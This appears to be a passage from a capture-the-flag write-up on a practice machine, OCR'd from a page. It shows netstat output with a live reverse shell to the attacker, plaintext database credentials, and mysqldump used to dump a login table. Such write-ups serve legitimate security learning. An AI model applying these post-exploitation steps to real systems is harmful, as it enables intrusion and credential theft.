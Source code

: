 ```bash
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      2 10.129.94.197:37080     10.10.14.53:1234        ESTABLISHED 2734/sh             
tcp        0      1 10.129.94.197:44996     8.8.8.8:53              SYN_SENT    -                   
tcp6       0      0 ::1:631                 :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 10.129.94.197:80        10.10.14.53:46644       ESTABLISHED - 
```

Tried logging in mysql database using `mysql` command but it was not installed on system. Tried following: 
	*	Port Forwarding: Didn't work
	*	Installing binary: Didn't work
	*	Working with other mysql binaries
	*	Tried interacting with `db.php5`
	
Creds: `admin:Th3s3usW4sK1ng`
```bash
www-data@ubuntu:/usr/bin$ mysqldump -h localhost -u theseus -piamkingtheseus
mysqldump: [Warning] Using a password on the command line interface can be insecure.
Usage: mysqldump [OPTIONS] database [tables]
OR     mysqldump [OPTIONS] --databases [OPTIONS] DB1 [DB2 DB3...]
OR     mysqldump [OPTIONS] --all-databases [OPTIONS]
For more options, use mysqldump --help
icw-data@ubuntu:/usr/bin$ mysqldump -h localhost -u theseus -piamkingtheseus Mag 
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)
--
-- Host: localhost    Database: Magic
-- ------------------------------------------------------
-- Server version	5.7.29-0ubuntu0.18.04.1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Table structure for table `login`
--

DROP TABLE IF EXISTS `login`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `login` (
  `id` int(6) NOT NULL AUTO_INCREMENT,
  `username` varchar(50) NOT NULL,
  `password` varchar(100) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `username` (`username`)
```
